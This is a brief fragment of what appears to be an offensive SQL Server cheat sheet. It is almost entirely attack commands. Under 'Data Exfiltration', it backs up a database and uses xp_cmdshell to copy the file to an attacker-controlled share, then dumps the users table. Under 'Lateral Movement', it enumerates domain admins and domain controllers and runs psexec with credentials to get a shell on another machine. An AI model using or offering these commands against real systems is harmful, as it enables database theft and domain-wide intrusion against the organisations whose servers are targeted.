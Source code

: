 ### Data Exfiltration
```sql
-- Export database to file
BACKUP DATABASE [database_name] TO DISK = 'C:\temp\backup.bak';
EXEC xp_cmdshell 'copy C:\temp\backup.bak \\attacker\share\';

-- Extract specific data
SELECT * FROM users 
FOR XML RAW, ELEMENTS
```

### Lateral Movement
```sql
-- Query domain information
EXEC xp_cmdshell 'net group "Domain Admins" /domain';
EXEC xp_cmdshell 'nltest /dclist:domain.com';

-- Access other systems
EXEC xp_cmdshell 'psexec \\target -u domain\user -p password cmd.exe';
```
